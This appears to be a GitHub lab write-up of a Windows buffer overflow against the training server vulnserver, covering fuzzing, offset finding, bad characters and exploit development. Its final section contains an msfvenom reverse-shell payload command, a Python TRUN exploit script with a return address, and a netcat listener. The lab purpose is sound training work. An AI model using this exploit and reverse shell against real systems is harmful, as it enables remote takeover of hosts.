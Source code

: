 # Windows Buffer Overflow

## Introduction
In this project, we will explore the concept of a buffer overflow vulnerability in Windows. A buffer overflow occurs when more data is written to a buffer than it can hold, potentially allowing an attacker to execute arbitrary code. We will use tools like Immunity Debugger, vulnserver, Windows 10, and Kali Linux to demonstrate a buffer overflow exploit.

## Tools Used
1. **Immunity Debugger**: A powerful debugger for analyzing and exploiting vulnerabilities.
2. **vulnserver**: A vulnerable server application designed for educational purposes.
3. **Windows 10**: The target operating system.
4. **Kali Linux**: The attacker’s machine with penetration testing tools.

## Prerequisites
- Basic understanding of buffer overflow vulnerabilities.
- Knowledge of Windows and Linux operating systems.
- Experience with basic networking concepts.

## Setup
### Installing Immunity Debugger
1. Download Immunity Debugger from the official website.
2. Install Immunity Debugger on Windows 10 machine.

*Ref 1: Installing Immunity Debugger*

![Installing Immunity Debugger](images/image1.png) 
![Installing Immunity Debugger](images/image2.png) 
![Installing Immunity Debugger](images/image3.png) 
![Installing Immunity Debugger](images/image4.png) 
![Installing Immunity Debugger](images/image5.png) 
![Installing Immunity Debugger](images/image6.png)

### Setting Up vulnserver
1. Download vulnserver from the official repository.
2. Extract the vulnserver executable to a directory on Windows 10 machine.
3. Run vulnserver by executing `vulnserver.exe` from the command line.

*Ref 2: Set Up Vulnserver*

![Setting Up Vulnserver](images/image7.png)
![Setting Up Vulnserver](images/image8.png)
![Setting Up Vulnserver](images/image9.png) 
![Setting Up Vulnserver](images/image10.png) 

### Configuring Kali Linux
1. Ensure that Kali Linux machine is on the same network as Windows 10 machine.
2. Install necessary tools, such as `metasploit` and `netcat`.

## Steps
### 1. Identifying the Vulnerability
1. Launch Immunity Debugger on a Windows 10 machine.
2. Attach Immunity Debugger to the vulnserver process by selecting `File -> Attach` and choosing `vulnserver.exe`.
3. Press F9 key to change its state from paused to running.
4. Connect to the vulnserver using netcat command.

For e.g; nc -nv ip_address port

*Ref 3: Running Vulnserver*

![Running vulnserver](images/image11.png) ![Running vulnserver](images/image12.png) ![Running vulnserver](images/image13.png)

### 2. Spiking
1. Identifying a vulnerable parameter.

*Ref 4: Spiking*

![Spiking](images/image14.png) ![Spiking](images/image15.png) ![Spiking](images/image16.png)
![Spiking](images/image17.png) ![Spiking](images/image18.png) ![Spiking](images/image19.png)

### 3. Fuzzing
1. Use a fuzzer to send random data to vulnserver and identify potential crash points.
2. On Kali Linux, create a simple fuzzer script in Python.
3. Run the python script.

*Ref 5: Fuzzing*

![Fuzzing](images/image20.png) ![Fuzzing](images/image21.png) ![Fuzzing](images/image22.png) ![Fuzzing](images/image23.png) ![Fuzzing](images/image24.png)
![Fuzzing](images/image25.png) ![Fuzzing](images/image26.png) ![Fuzzing](images/image27.png) ![Fuzzing](images/image28.png)

### 4. Finding the Offset
1. Find the exact offset where the buffer overflow occurs using the pattern generation and pattern offset tools provided by Metasploit.
2. Generate a unique pattern:
    ```bash
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 6900
    ```
3. Send the unique pattern to vulnserver and note the EIP value in Immunity Debugger.
4. Determine the offset:
    ```bash
    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 6900 -q EIP_VALUE
    ```
*Ref 6: Finding the offset*

![Finding the offset](images/image29.png) ![Finding the offset](images/image30.png) ![Finding the offset](images/image31.png)
![Finding the offset](images/image32.png) ![Finding the offset](images/image33.png) ![Finding the offset](images/image34.png)

### 5. Overwriting the EIP
1. Modify and execute a python script.
Note: EIP value = 42424242
2. We see that the EIP is overwritten with "BBBB". This means that we can control the EIP.

*Ref 7: Overwriting the EIP*

![Overwriting the eip](images/image35.png) ![Overwriting the eip](images/image36.png) ![Overwriting the eip](images/image37.png)
![Overwriting the eip](images/image38.png)

### 6. Finding Bad Characters
1. We will use mona.py python script as follows:
Commands:

!mona bytearray

*Ref 8: Finding bad characters*

![Finding bad characters](images/image39.png) ![Finding bad characters](images/image40.png) ![Finding bad characters](images/image41.png)
![Finding bad characters](images/image42.png) ![Finding bad characters](images/image43.png) ![Finding bad characters](images/image44.png)
![Finding bad characters](images/image45.png) ![Finding bad characters](images/image46.png)

### 7. Finding the Right Module
1. Utilizing the mona.py script.

Commands:

!mona modules

!mona find -s "\xff\xe4" -m essfunc.dll

2. Set a breakpoint.

a. Click the pointer in the window in the top left-hand corner.

b. Press F2 key to set a breakpoint.

3. Run the python script.

python2 find-right-module.py


*Ref 9: Finding the Right Module*

![Finding the right module](images/image47.png) ![Finding the right module](images/image48.png) ![Finding the right module](images/image49.png) ![Finding the right module](images/image50.png)
![Finding the right module](images/image51.png) ![Finding the right module](images/image52.png) ![Finding the right module](images/image53.png)

### 8. Exploit Development
1. Generating a payload using msfvenom:

sudo msfvenom -p windows/shell_reverse_tcp LHOST=Ip address of kali Linux LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"

2. Create a Python script to send the exploit payload.
3. On Kali Linux, create a simple script in Python:
 ```python
#!/usr/bin/python
from __future__ import print_function
import sys, socket

overflow = ("Paste the payload")

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow

try:
     s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
     s.connect(('192.168.1.97',9999))
     s.send(('TRUN /.:/' + shellcode))
     s.close()

except:
     print("Error connecting to server")
     sys.exit()
 ```

4. Start a netcat listener.

nc -nvlp 4444

### 5. Executing the Exploit
1. Replace the 'payload' variable with the shellcode generated by a tool like 'msfvenom'.
2. Run the exploit script from a Kali Linux machine.
3. Observe the reverse shell connection on a Kali Linux machine.

*Ref 10: Exploit Development - Generating shellcode | Gaining Root

![exploit development](images/image54.png) ![exploit development](images/image55.png) ![exploit development](images/image56.png)
![exploit development](images/image57.png) ![exploit development](images/image58.png) ![exploit development](images/image59.png)

## Conclusion
By following these steps, we have successfully demonstrated a buffer overflow vulnerability and developed an exploit for it. This project emphasizes the importance of secure coding practices and proper input validation to prevent such vulnerabilities.
